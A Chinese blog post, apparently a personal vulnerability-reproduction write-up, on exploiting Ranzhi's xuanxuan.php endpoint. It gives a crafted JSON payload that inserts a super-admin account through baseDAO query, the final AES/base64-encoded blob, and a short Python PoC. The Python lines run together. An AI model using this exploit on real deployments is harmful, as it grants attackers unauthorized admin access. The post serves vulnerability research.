







# 记一次成功的漏洞复现-然之协同

今天一早来到公司，继续复现昨天未完成的~

## 0x00 思路转换

昨天在最后验证了漏洞的可行性，所以问题就出现在了payload上，payload里面一直有几个地方有问题，无所谓，我们先将它的代码改成我们希望的模式。两处改动，在解密中加了一行，昨天说过了，有一个莫名bug..

第二处在处理函数上

因为最后的触发点在`call_user_func_array`，要求参数也必须是一个数组，但是parse_str解析不上去，可能是payload问题，先将它手动修改成需要的解析模式，最后，biu，跑起来，发现数据库已经执行了~



## 0x01 代码复原

达到目的后，接下来就来思考如何修改payload，解密那边先放一边，先看看`parse_str`这里，这里主要将参数解析成数组，所以修改一下payload，在sql前面加个`0=`就可以解析了。
```php
$payload = '{"userID": "123", "module": "chat", "method": "fetch","params": {"0": "baseDAO", "1": "query", "2": "0=INSERT INTO `ranzhi`.`sys_user`( `account`, `password`, `admin`) VALUES(\'admin886\', \'68a021b219de5c74dfb47ef701866b45\',\'super\');", "3": "sys"}}';
```

## 0x02 神秘的aes解密

第二个问题解决了，接下来看第一个问题，为什么aes解密完会带有两个引号呢。

一段追本溯源后终于找到原因了，加密的时候会先json_encode一下，这一步没这个必要，所以把这行注释，生成新的payload,在base64加密后得到
```php
CkKwDSZnBMMevnuri7IEgqSSuugS5vd2cmJ0ByV6juQG0ODxwYv36elTFRpQovoNgqI/gE1ZpsfWElyh28WTg9lQ9YOTiCizJf3KGR5qQl5AIxO7Fxe2vjS4N+jBp2SxW0d2tCf74gAEcN8n5gI3MVqXS1wUaKIMrGzocWz8/ENwvuGmuAN7CsI6bFrGTs1LSRu6f1LReIR0RAMPUh+0sVE5AXULjYGprmEFxZob6dRZq8ay48665cVWdHckpBWUiVWeleFYhJd3k1PAhifpPmYQBf8v837HJTMxo/CYPFKOC/GJaZz7yYP/QMtJoEmdVZLswv5f22YYDsNErYUVgg==
```

最终的poc就是
```python
base = 'CkKwDSZnBMMevnuri7IEgqSSuugS5vd2cmJ0ByV6juQG0ODxwYv36elTFRpQovoNgqI/gE1ZpsfWElyh28WTg9lQ9YOTiCizJf3KGR5qQl5AIxO7Fxe2vjS4N+jBp2SxW0d2tCf74gAEcN8n5gI3MVqXS1wUaKIMrGzocWz8/ENwvuGmuAN7CsI6bFrGTs1LSRu6f1LReIR0RAMPUh+0sVE5AXULjYGprmEFxZob6dRZq8ay48665cVWdHckpBWUiVWeleFYhJd3k1PAhifpPmYQBf8v837HJTMxo/CYPFKOC/GJaZz7yYP/QMtJoEmdVZLswv5f22YYDsNErYUVgg=='encrypted_text = base64.b64decode(base)r = requests.post(self.url + "/xuanxuan.php", data=encrypted_text, headers=headers)
```

运行后发现数据已经写入到了数据库



## 0x03 最后一个坑

所有分析都完成了，于是兴高采烈的用poc去测试靶机，然而，就像唐僧取经九九八十一难一样，最后还有一个坑，sql语句写入数据的密码为了方便就用了和admin一样，但是然之的密码也不是单纯的md5加密，他会把用户名当做salt再重新加密，这也是遇到坑之后追踪看到的~

解决方法很简单，先新建一个用户，在数据库中把它的用户名密码复制下来替换即可~。

最后的成果图





## 0x04 End

昨天追踪代码追了一天都毫无进展，没想到今天灵感突发，一个上午就把问题解决了。如果你要问第一天毫无头绪，第二天就解决了，心情是怎样的，那还用说吗？当然是非常激动！
